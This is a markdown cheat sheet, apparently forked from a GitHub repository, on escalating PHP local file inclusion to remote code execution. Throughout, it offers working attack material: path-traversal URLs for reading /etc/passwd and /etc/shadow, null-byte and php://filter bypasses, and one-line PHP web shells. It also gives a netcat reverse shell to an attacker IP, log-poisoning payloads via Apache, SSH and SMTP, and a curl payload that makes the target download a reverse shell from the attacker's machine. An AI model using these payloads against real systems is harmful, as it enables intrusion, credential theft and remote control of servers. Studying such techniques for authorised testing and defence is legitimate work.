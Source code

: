 Fork from https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
### Interesting files
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
```

## Vulnerable PHP Code (LFI)

```
<?php
$file = $_GET['file'];
 include('directory/' . $file)
?>
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```
<?php
if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}
?>
```
    
## Bypassing PHP via NULL Byte
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
## Bypassing PHP via WRAPPERS
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
## PHP RCE
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>
```

## Dangerous PHP Functions that can be abused for RCE
```
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## LFI to RCE via Apache Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR
python -m SimpleHTTPServer 9000 
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 
    file_put_contents('shell.php')                                // What it will be saved locally on the target
    file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called
Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

## LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
## LFI to RCE via process injection
```
http//10.10.10.10/index.php?file=../../../../../../../proc/sched_debug # schedule + PID
http//10.10.10.10/index.php?file=../../../../../../../proc/self/cmdline # current process
http//10.10.10.10/index.php?file=../../../../../../../proc/self/status # info
http//10.10.10.10/index.php?file=../../../../../../../proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
```


## LFI to RCE via SMTP Log File Poisoning (PHP)
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
